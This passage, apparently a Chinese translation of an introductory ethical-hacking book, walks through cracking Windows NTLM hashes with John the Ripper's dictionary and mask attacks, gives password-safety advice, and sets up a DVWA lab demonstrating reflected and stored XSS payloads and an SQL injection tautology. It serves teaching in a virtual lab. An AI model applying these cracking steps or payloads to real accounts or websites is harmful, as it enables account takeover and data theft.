

图 7-2：Hashes.com 将你的 NTLM 哈希作为输入并输出其数据库中找到的任何破解密码。

Hashes.com 找到了其中五个密码！由于它不断向数据库中添加新密码，因此在本书的后续内容中，它可能能够破解更多我们将使用的简单密码。

我们已能够使用免费的在线查询工具从我们的 Windows 虚拟机中恢复至少五个密码——而攻击者可能只需要 *一个* 用户名和密码就能入侵网络、公司或政府机构。这就是为什么组织中的 *每个用户* 都应选择更长、更难猜测的密码很重要。

## John the Ripper

John the Ripper，通常缩写为 JtR 或简称为 John，是最古老的密码破解工具之一；John 的第一个版本发布至今已超过 20 年。John 在 Kali Linux 中包含在 Kali 菜单按钮的 05 - Password Attacks 菜单下。

John 从命令行终端运行，但还有另一个名为 Johnny 的 John 版本，具有更易于使用的图形用户界面（GUI）。Johnny 未包含在最新的 Kali 版本中。要安装它，请打开一个新的终端窗口并输入以下两个命令：

```
kali@kali:~$ sudo apt update
kali@kali:~$ sudo apt install johnny
```

在第一个命令后，你可能需要输入你的密码（`kali`）。安装后，Johnny 通常会出现在 05 - Password Attacks 菜单中 John 的下方，但你也可以通过在终端中输入 `johnny` 来运行它。

我们将在 Johnny 中使用两种方法来破解更多被窃取的 Windows 密码。我们将尝试字典攻击来破解常见密码，并尝试掩码攻击来破解具有变体的密码。Johnny 中所做的一切也可以通过终端使用 John 来完成；在使用 Johnny 之后，你可以查找 John 的命令并尝试它们以了解整体流程。

### 字典攻击

我们将首先尝试字典攻击。也称为 *词表攻击*，*字典攻击* 会将一列单词与我们试图破解的哈希值进行测试。John the Ripper 会对我们提供的常见密码长列表中的每个密码进行哈希处理，将每个哈希值与我们的 Windows 哈希值进行比较。如果找到匹配项，我们就破解了该密码。

Kali 包含多个内置词表，包括 RockYou 词表。RockYou 是一家公司，在 2009 年一起涉及保护不力的 Web 应用程序的著名泄露事件中丢失了 3200 万用户的密码。RockYou 泄露的明文密码列表至今仍是检查密码安全性的最佳免费词表之一。

1. 要访问 RockYou 词表，请在终端窗口中输入以下命令：

```
kali@kali:~$ sudo gunzip /usr/share/wordlists/rockyou.txt.gz
```

此命令将把词表提取为 `/usr/share/wordlists` 文件夹中的 `rockyou.txt`，以便在 John 和 Johnny 中用作字典。

2. 通过点击 Kali 菜单按钮并选择 **05 - Password Attacks**▶`johnny` 打开 Johnny。

3. 点击 **打开密码文件**▶**打开密码文件（PASSWD 格式）**。找到我们之前创建的 `Windows_hashes.txt` 文件，如 图 7-3 所示，并选择它以加载密码哈希文件。



图 7-3：在 Johnny 中打开 `Windows_hashes.txt` 密码文件

4. 在 Johnny 左侧点击 **选项**，然后在 Options 窗口中点击攻击模式下的 **词表** 选项卡。如 图 7-4 所示，在 Wordlist file 文本框中输入 `/usr/share/wordlists/rockyou.txt`。



图 7-4：通过 Johnny 加载 `rockyou.txt` 词表

5. 仍在 Options 窗口中，在 Session details 下，从 Current hash format 下拉列表中选择 `NT`，如 图 7-5 所示。这告诉 Johnny 密码哈希采用 NTLM 格式。



图 7-5：选择 `NT` 作为输入密码哈希格式

6. 点击左侧的 **密码**，然后点击顶部的 **开始新攻击**。

几乎立即，Johnny 将显示多个破解的密码，如 图 7-6 所示。（如果看不到任何密码，请确保你在第 5 步中将当前哈希格式更改为 NT。）



图 7-6：Johnny 使用我们捕获的哈希值破解五六个密码几乎不需要时间。

我们花了几分钟捕获密码哈希，但使用 RockYou 词表的字典攻击破解前五六个密码不到一秒钟。如果使用简单的由一两个单词加上几个数字和符号组成的密码，这就是恶意黑客获取你密码所需做的全部工作。

RockYou 词表包含我们为用户设置的多个密码。其他密码足够复杂，未出现在列表中。让我们看看如何使用 Johnny 中的另一个选项——掩码攻击来破解一两个更多密码。

### 掩码攻击

*掩码攻击* 从部分信息（如旧密码）开始，并添加字符以尝试破解类似密码。你或你认识的人很可能会通过在末尾添加数字或符号来重复使用旧密码，例如 *badpassword20!*。这种行为比你想象的更常见，并且使许多密码容易受到掩码攻击。

如果攻击者获得了某人密码的一部分，掩码攻击也有效。想象一下，我们的 Windows 用户之一 Kara 在 CatCo Worldwide Media 工作。路过 Kara 办公桌时，一位爱管闲事的同事看到 Kara 扔进垃圾桶的一张便签。它被撕破了，但看起来上面可能写着部分密码：*SuperGir*（见 图 7-7）。

社会工程师称之为 *dumpster diving*——字面意思是翻找某人的垃圾以获取有用信息，例如银行对账单、信用卡优惠，或写在信封背面或像这样的便签上的密码。


图 7-7：Kara 撕破的便签，看起来像是她密码的一部分

在 Johnny 中，我们可以在 *SuperGir* 末尾添加通配符字符，以尝试猜测 Kara 密码的其余部分可能是什么。*通配符* 是占位符，可以被一组字母、数字或符号中的任意一个替换。我们可以使用通配符字符 `?u` 表示大写字母，`?l` 表示小写字母，`?d` 表示数字（0–9），`?s` 表示特殊符号，或 `?a` 表示所有可打印字符（字母、数字、标点和特殊字符）。


## 掩码攻击
我们可以使用我们已知的密码部分（`SuperGir`），加上一些通配符字符，来创建一个 `mask`。一个 `mask` 通过填入我们已知的字符（在本例中为前八个字符：`SuperGir`）来减少我们需要尝试的密码组合数量。根据便签，我们不知道 Kara 的密码是以数字、字母还是特殊字符结尾，所以让我们先使用掩码 `SuperGir?a`。

1. 在 Johnny 中，点击左侧的 **Options**，点击 **Mask** 选项卡，并在 Mask 文本框中输入 `SuperGir?a`。
2. 在顶部点击 **Start new attack**。然后，要查看 Kara 的密码是否被破解，点击左侧的 **Passwords**。你应该会看到在 `SuperGir` 后面添加一个通配符字符并不能破解密码。
3. 返回 **Mask** 选项卡，输入两个通配符字符，`SuperGir?a?a`，然后再次尝试。
4. 还是没有？输入第三个通配符字符，`SuperGir?a?a?a`，如 图 7-8 所示。然后再次点击 **Start new attack**。


图 7-8：使用掩码攻击——在便签上找到的部分密码后添加通配符字符——来破解 Kara 的密码

这次，图 7-8 中窗口底部的进度条应发生变化，显示 Johnny 成功破解了另外一个密码。再次点击 **Passwords**。现在，在 `kara` 旁边，你会看到她的密码，`SuperGirl7!`，如 图 7-9 所示。


图 7-9：密码掩码 `SuperGir?a?a?a` 在不到一秒的时间内破解了 Kara 的密码（`SuperGirl7!`）！

即使我们只有 Kara 密码的一部分，我们也能使用掩码攻击来猜出她的完整密码。Johnny 花费不到一秒钟就逐一尝试了成千上万种可能性，从 `SuperGir000` 到 `SuperGirl7!`。这意味着，如果你通过仅在开头、中间或结尾更改数字和符号来重复使用密码，那么发现你旧密码的黑客可以使用 Johnny 或类似工具在几秒钟内猜出你的当前密码。

你也可以对 Peter 的密码使用掩码攻击。输入几个通配符字符——从 `SpidermanRu?a` 开始，然后是 `SpidermanRu?a?a`，依此类推——直到破解完整密码。最后一轮可能需要五到六分钟才能运行，因为每个新增字符都会使复杂度呈指数级增长（3 个通配符不到一秒，4 个通配符需要三到四秒，5 个通配符需要五到六分钟，6 个通配符几乎需要九小时，而 14 个通配符需要数千年！）。

破解更长密码所需时间呈指数级增长，这正是每个人都应该使用长密码的原因。无论我们运行 Johnny 多年，我们也不太可能破解我们的长密码短语，即你创建的最终密码。长密码是我们用来阻止黑客进入账户的技巧之一。

## 使用更安全的密码
你只需做几处更改，就能让密码变得难以破解，即使是专业人士也难以破解。首先，通常密码越长越安全。要创建强密码短语，请选择四个或更多随机、无关联的单词并将其串联起来。要使密码短语几乎无法破解，请添加一些数字或特殊字符。

除了常规键盘上的特殊字符如 `!`、`@`、`#` 和 `$` 之外，你还可以添加来自不同于你自己的语言或字母表的特殊字符。即使你使用较短的密码而不是密码短语，添加另一种语言的特殊字符也能使其更难破解。

让我们看看如何在不同的操作系统中做到这一点。

1. Windows 按住 `ALT` 键，同时在数字键盘上输入数字，然后松开。例如，按住 `ALT` 键，同时在数字键盘上输入 `0214`；松开 Alt 键后，字符 `Ö` 将出现（带分音符的大写 O）。在线搜索“Windows alt codes”列表以找到你想要使用的字符。请注意，有些键盘可能需要你专门使用左侧 `ALT` 键。在没有数字键盘的笔记本电脑上，你可以按 Windows 键加句点键（`Windows-.`）来插入表情符号或其他符号。
2. Linux 按 `ctrl-shift-U`；松开（你会看到屏幕上出现带下划线的 `u`）；输入你想要的字符的 Unicode 十六进制值，例如 `d6`（或对于需要四位数字的系统为 `00d6`）表示 `Ö` 字符，然后按 `spacebar` 或 `enter`。在线搜索“Unicode character codes”以找到更多选项。
3. macOS 按 `CONTROL-COMMAND-SPACEBAR` 调出字符查看器。输入 `u+d6` 以显示 `Ö` 字符。要插入字符，可以按向下箭头选择它然后按 `ENTER`，或直接用鼠标点击它。适用于 Linux 的相同 Unicode 字符代码在 macOS 的字符查看器中也适用；只需在十六进制代码前加上 `u+` 即可。
4. iPhone 或 Android 在虚拟键盘上长按 `O`，直到弹出窗口出现 `Ö` 字符和其他选项。没有安装应用或选择替代键盘布局，就无法访问所有 Unicode 字符，但对大多数元音和少数辅音进行长按将提供足够的选项来增强密码。

当然，你可能记不住多于一两个带有此类特殊字符的长密码。密码管理器可以通过为大多数账户设置长随机密码并安全地为你存储它们来减轻负担。此外，只要提供就应开启双因素认证。借助此功能，即使攻击者破解了你的其中一个密码，他们也可能无法访问你的账户。我们将在第 11 章更详细地研究这些工具。

## 总结
在本章中，你学习了攻击者如何使用 `Metasploit` 中的 `Mimikatz` 通过网络窃取 Windows 密码哈希。一旦攻击者通过你被诱骗安装的恶意软件访问了你的计算机，他们可以（并且经常会）浏览你的系统寻找密码或其他敏感数据。然后你看到了黑客如何使用免费的在线密码数据库或 `John the Ripper` 中的字典攻击轻松破解许多密码哈希。你还学习了如何通过向旧的或不完整的密码添加几个通配符字符，使用掩码攻击破解更复杂的密码。

最后，你学习了一些技巧，以保护自己免受本章所述的密码攻击。以下是一些可以改变你终身密码习惯的 dos 和 don’ts 的简短总结：

* *Don’t* 在多个账户中使用相同的密码。
* *Don’t* 通过在末尾（或中间或开头）添加数字或符号来重复使用密码。
* *Don’t* 将密码写下来或存储在明文文档或电子表格中。
* *Do* 使用包含一个或多个特殊字符的长密码短语。
* *Do* 使用密码管理器和多因素认证。

这些提示将使你的在线生活比普通人更容易且 *much* 更安全。然而，攻击者不必访问你的计算机就能窃取你的密码；他们可以通过互联网从 Web 应用程序和服务器窃取密码和其他信息。在下一章中，我们将通过入侵虚拟实验室中的易受攻击的 Web 服务器来学习如何做到这一点。

首先，检查 列表 7-2 以查看你是否成功破解了本章开头的密码！


```
359878442cf617606802105e2f439dbc Wow!
63191e4ece37523c9fe6bb62a5e64d45 Great
9dddd5ce1b1375bc497feeb871842d4b job
4d1f35512954cb227b25bbd92e15bc7b cracking
e6071c75ea19bef227b49e5e304eb2f1 passwords!
```
清单 7-2：来自 清单 7-1 的破解密码

# 8 网络入侵


入侵一台个人电脑可能只会得到几组用户名、密码和其他数据。但入侵一台 Web 服务器可能会让攻击者获得 *数百万* 的用户名和密码，用来在银行网站、电子邮件服务器等地方进行测试。

2019 年，Quest Diagnostics 通过其 Web 支付页面的漏洞遭到攻击，导致 1200 万患者的记录泄露。2017 年，信用机构 Equifax 未能保护 1.5 亿人的信用信息，包括出生日期、社会安全号码和地址。2018 年对 Marriott 的攻击导致 5 亿旅行者的数据泄露，包括信用卡号码和护照数据。迄今为止最大的数据泄露——2013 年对网络搜索引擎和电子邮件平台 Yahoo! 的攻击——泄露了全部 3 *亿* 用户的账户，包括电子邮件地址和密码。

在本章中，你将看到恶意黑客如何仅凭一个 Web 浏览器和几行代码攻击 Web 应用程序。你还将了解安全专业人员防御 Web 攻击的常见方法，从而保护数百万（也许是数十亿！）人的数据免受网络罪犯的侵害。

## Metasploitable 虚拟机

我们希望安全、合乎道德地练习 Web 入侵，因此我们将在虚拟黑客实验室中设置一台 Web 服务器。Metasploit 的创建者还创建了一个故意存在漏洞的 Web 服务器，名为 Metasploitable，用于培训目的。我们将使用我为你定制的该服务器的一个版本。让我们将其添加到你的虚拟黑客实验室中：
1. 转到 [`https://www.nostarch.com/go-hck-yourself/`](https://www.nostarch.com/go-hck-yourself/) 并点击链接下载 `Metasploitable2-gohack.ova` 文件到你的主机电脑。
2. 双击下载的文件在 VirtualBox 中打开它。导入虚拟设备窗口将打开，如 图 8-1 所示。点击 **导入**。
    
    图 8-1：导入 `Metasploitable2-gohack.ova` 文件到 VirtualBox
3. 在 VirtualBox VM 管理器中选择 Metasploitable2 VM 并点击 **设置**。
4. 转到 **网络** 选项卡并确保启用网络适配器框已勾选，并且显示附加到：`NAT Network` 和名称：`PublicNAT`，与我们的其他虚拟机一样。正确的设置显示在 图 8-2 中。
    
    图 8-2：确保 Metasploitable VM 已连接到 `PublicNAT` 网络
5. 点击 **确定** 保存这些网络设置。你的新 Metasploitable VM 现在已准备好运行！
6. 在 VirtualBox 管理器中选择 Metasploitable 并点击 **启动**。由于 Metasploitable 是一台 Web 服务器，而不是台式电脑，因此它使用基于文本的界面而不是图形用户界面。如果界面太小而无法阅读，请转到 VM 的菜单栏并选择 **查看**▶**虚拟屏幕 1**▶**缩放至 200%**（或适合你屏幕的其他值）。
7. 输入用户名 `msfadmin` 和密码 `msfadmin`。在 Metasploitable 的终端窗口中输入时密码不会显示，但如果输入正确，提示符将从登录变为如下所示的 shell 提示符：
```
msfadmin@metasploitable:~$
```
8. 输入此命令：
```
msfadmin@metasploitable:~$ ip a
```
Metasploitable 将回复其 IP 地址（在我这里是 `10.0.9.8`）：
```
--snip--
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast qlen 1000 link/ether 08:00:27:11:23:67 brd ff:ff:ff:ff:ff:ff inet 1 10.0.9.8/24 brd 10.0.9.255 scope global eth0 --snip--
```
请注意 IP 地址。你需要它从其他虚拟机浏览到 Metasploitable VM 的 Web 服务器。

## 从浏览器进行 Web 入侵

Web 入侵非常常见，因为它对攻击者来说回报丰厚（记住，对 Web 服务器的成功攻击一次可获得 *数百万* 用户的信息），Web 服务器始终在线并连接到互联网，而且攻击者只需一个 Web 浏览器即可操作。为了演示其工作原理，我们将从 Windows 10 VM 中的 Edge 浏览器入侵 Metasploitable 服务器。

在 VirtualBox 管理器中启动你的 Windows 10 VM。使用凭据 `IEUser` 和 `Passw0rd!` 登录。打开 Edge 浏览器（任务栏上的蓝色 *e* 旋涡图标）并在地址栏中输入你的 Metasploitable VM 的 IP 地址。你将看到 图 8-3 所示的 Metasploitable 2 主页。

图 8-3：从你的 Windows 10 VM 输入你的 Metasploitable VM 的 IP 地址以查看此主页。

Metasploitable 2 包含五个存在漏洞的 Web 应用程序，但我们将只关注其中一个：`DVWA`，即 Darn Vulnerable Web App。这个故意存在漏洞的开源 Web 应用程序旨在帮助 Web 开发人员和安全专业人员学习基本攻击，以及如何保护 Web 应用程序免受攻击。`DVWA` 具有不同的漏洞等级，以便用户可以尝试攻击具有不同安全程度的应用程序。我们将安全等级设置为低，以模拟没有额外安全性的 Web 应用程序。
1. 点击 Metasploitable 2 主页上的 **DVWA** 链接。你将看到应用程序的登录屏幕，如 图 8-4 所示。
2. 输入 `admin` 作为用户名和 `password` 作为密码以访问 `DVWA`。
    
    图 8-4：`DVWA` 登录屏幕，显示我们的凭据
3. 在左侧点击 **DVWA 安全**。
4. 在脚本安全部分下，将安全等级设置为 **低** 并点击 **提交**，如 图 8-5 所示。
    
    图 8-5：设置 `DVWA` 脚本安全等级为低

现在我们准备在 `DVWA` 上尝试两种 Web 攻击：跨站脚本攻击和 SQL 注入攻击。

### 启动跨站脚本攻击

在 *跨站脚本 (XSS) 攻击* 中，黑客通过用于常规文本输入的字段（如登录表单或搜索字段）将恶意代码输入到 Web 页面中。XSS 攻击也称为 *代码注入* 攻击，因为黑客能够输入或 *注入* 自己的代码到 Web 应用程序中。我们将使用两种 Web 语言——JavaScript 和超文本标记语言 (HTML)——向 `DVWA` 注入脚本。

要测试 Web 应用程序是否存在 XSS 漏洞，你只需要一个 JavaScript 命令：
```
alert("You've been hacked!");
```
该命令会弹出一个警告框，显示“你已被入侵！”为了将其注入到 Web 页面中，我们用适当的 HTML 标签 `<script>` 和 `</script>` 包裹 JavaScript 代码，如下所示：
```
<script>alert("You've been hacked!");</script>
```
HTML `<script>` 标签告诉 Web 页面一个 *脚本*（一段简短的代码），通常是 JavaScript，开始了。`</script>` 标签称为闭合标签，它让 Web 页面知道脚本代码已结束。

#### 反射型跨站脚本


## 反射型跨站脚本攻击 (XSS)

一次 *反射型 XSS 攻击* 利用会将用户的输入直接 *反射* 回到网页上的页面，就像一个订单表单会询问你的姓名和地址，然后将它们显示给你以确认你输入正确。攻击者利用反射型跨站脚本向未受保护的 Web 应用程序注入恶意的 HTML 或 JavaScript 代码。让我们试试看！

1. 在你的 Windows 10 虚拟机上的 DVWA 中，点击左侧的 `XSS reflected` 以打开“漏洞：反射型跨站脚本攻击 (XSS)”网页。

此页面设计为将你的输入反射到“What's your name?” 文本字段中，在 *Hello* 之后将它显示给你。例如，如果你输入姓名 `Bryson`，页面会回复 `Hello Bryson`。

2. 不要输入你的姓名，而是将上一节中的 HTML/JavaScript 命令输入到姓名文本字段中，如 图 8-6 所示：

```
<script>alert("You've been hacked!");</script>
```


图 8-6：通过在文本框中输入 HTML 和 JavaScript 来攻击反射型 XSS 页面

3. 点击 `Submit`，网页将重新加载，并弹出消息“您已被黑客入侵！”如 图 8-7 所示。


图 8-7：易受攻击的网页弹出一条消息说我们已被黑客入侵！

通过将一行 HTML 和 JavaScript 组合并输入到 DVWA 中的未受保护文本框，我们将自己的代码注入到网页中。恶意攻击者可以使用相同的技术让用户相信他们的计算机确实受到攻击，并诱使其拨打免费电话寻求“技术支持”。在这个常见的诈骗中，罪犯租用呼叫中心来获取担心受害者的信用卡信息并为虚假的计算机服务收费。

### 存储型跨站脚本攻击

大多数网站使用数据库来存储用户输入或经常变化的信息，例如产品信息或客户数据。如果攻击者向与数据库关联的 Web 表单注入恶意代码，该恶意代码将被存储在数据库中并成为网页的永久组成部分。这种攻击称为 *存储型 XSS 攻击*，可确保恶意代码在有人查看受影响的网页时每次都会运行。相比之下，我们的反射型 XSS 攻击并未永久更改网页，因为注入的代码未保存到数据库。我们现在来试试存储型 XSS 攻击。

1. 在左侧的 DVWA 菜单中点击 `XSS stored`。你会看到一个类似留言簿的应用程序，允许用户将姓名和简短消息保存到页面。

2. 不要用你的姓名和友好的留言来签名留言簿，只输入你的姓名。然后，在 Message 文本框中输入我们想要存储在此页面数据库中的 XSS 攻击代码，`<script>alert("You've been hacked!");</script>`，如 图 8-8 所示。


图 8-8：在 DVWA 的 XSS 存储页面中存储我们的恶意脚本

3. 点击 `Sign Guestbook`，你会看到警告弹出，如 图 8-9 所示。


图 8-9：我们的 JavaScript 警告会告诉每个访客“您已被黑客入侵！”

与反射攻击不同，此警告会在有人访问存储型跨站脚本攻击 (XSS) 留言簿页面时每次都弹出。你已使用基于数据库的网页在 DVWA 网站中永久存储了恶意脚本。

JavaScript 不仅可以弹出警告消息，还能做更多事情。让我们更改浏览器的 `window.location` 以将用户重定向到完全不同的网站：

1. 再次加载 XSS stored 网页并点击 `OK` 关闭警告消息弹出窗口。

2. 这次，在像往常一样输入姓名后，将以下代码输入到 Message 文本框中，如 图 8-10 所示：

```
<script>window.location.href="https://www.nostarch.com/go-hck-yourself";</script>
```


图 8-10：输入一个更恶意的脚本，将用户重定向到完全不同的网页

3. 点击 `Sign Guestbook`，你会看到之前注入的警告弹出。但是一旦你关闭警告，你将被带到 [`www.nostarch.com/go-hck-yourself/`](https://www.nostarch.com/go-hck-yourself/)。你无法返回 DVWA XSS stored 页面，因为每次重新加载页面时，它都会重定向到 *Go H\*ck Yourself* 网页。

我们已永久劫持了 XSS stored 页面，以便每个访客都会被重定向到本书的网站。攻击者可以对雇主网站中未受保护的 Web 应用程序、你最喜欢的在线游戏或社交媒体应用，甚至当地政府网站做同样的事情或更糟。要恢复网站的原始功能，网站管理员必须访问数据库并完全删除存储的 XSS 代码。

要重置 DVWA 中的数据库以删除我们输入的恶意代码，请在左侧的 DVWA 菜单中点击 `Setup`，如 图 8-11 所示。然后点击 `Create / Reset Database`，DVWA 将数据库重置为原始状态。


图 8-11：清除你的存储型 XSS 入侵

## 对数据库发起 SQL 注入攻击

向网站 *注入* 恶意代码很可怕，但黑客如何从网站 *获取* 敏感数据呢？在本节中，你将学习 Web 黑客如何使用结构化查询语言 (SQL) 注入攻击直接从网站数据库窃取信息。SQL 是用于访问大多数数据库的语言，而 *SQL injection* *(SQLi)* 涉及将恶意 SQL 代码插入 Web 应用程序，以欺骗应用程序的数据库泄露私有信息。

数据库包含 *表*，它们看起来像列和行的电子表格。列用于不同的 *字段* 或信息片段，如名字、姓氏、用户名、密码、电子邮件地址等。行用于单个 *记录*。例如，用户表中的每个用户都会占据一行。

当我们访问数据库时，我们使用 SQL *查询*，如下所示：

```
SELECT password FROM users WHERE username='Bryson'
```

此查询请求 `users` 表中 `username` 字段为 `Bryson` 的行或行的 `password` 字段。我们可以稍微修改查询以请求 *所有* 用户的密码：

```
SELECT password FROM users WHERE username='Bryson' OR 1='1'
```

通过向查询添加 `OR` 条件，我们要求数据库从 `users` 表中选择所有密码。对于每一行，SQL 会询问 `username` 是否等于 `'Bryson'`，或该行的 `1` 是否等于 `'1'`。如果任一条件为真，SQL 将返回该行的密码。因为其中一个条件 *始终* 为真（1 始终等于 1），数据库将返回 `users` 表中的 *每个* 密码。

让我们向 DVWA 注入一些 SQL 查询以窃取网站数据库中的信息。

1. 在你的 Windows 10 虚拟机的 Edge 浏览器中，确保 DVWA 脚本安全级别设置为低（如 图 8-5 第 95 页所示）。

2. 在左侧的 DVWA 菜单中点击 `SQL Injection`。你会看到一个类似 图 8-12 的用户查找页面。


